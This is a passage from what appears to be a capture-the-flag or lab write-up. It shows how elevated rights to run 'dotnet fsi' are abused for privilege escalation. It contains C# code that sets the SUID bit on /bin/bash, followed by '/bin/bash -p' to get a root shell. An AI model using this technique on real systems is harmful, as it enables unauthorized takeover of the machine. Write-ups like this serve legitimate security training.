 Since we can run this, we can simply run `dotnet fsi`, which would open up an interactive interpreter we can use to make `/bin/bash` a SUID binary.

<pre class="language-csharp"><code class="lang-csharp"><strong>using System.Diagnostics;
</strong>string command = "chmod u+s /bin/bash";
ProcessStartInfo psi = new ProcessStartInfo("/bin/bash", $"-c \"{command}\"");
psi.UseShellExecute = false;
psi.RedirectStandardOutput = true;

Process process = new Process();
process.StartInfo = psi;
process.Start();
</code></pre>

Then, either in the same shell or another, we can run `/bin/bash -p` to become root.

<figure><img src="../../../.gitbook/assets/image (463).png" alt=""><figcaption></figcaption></figure>

Rooted!
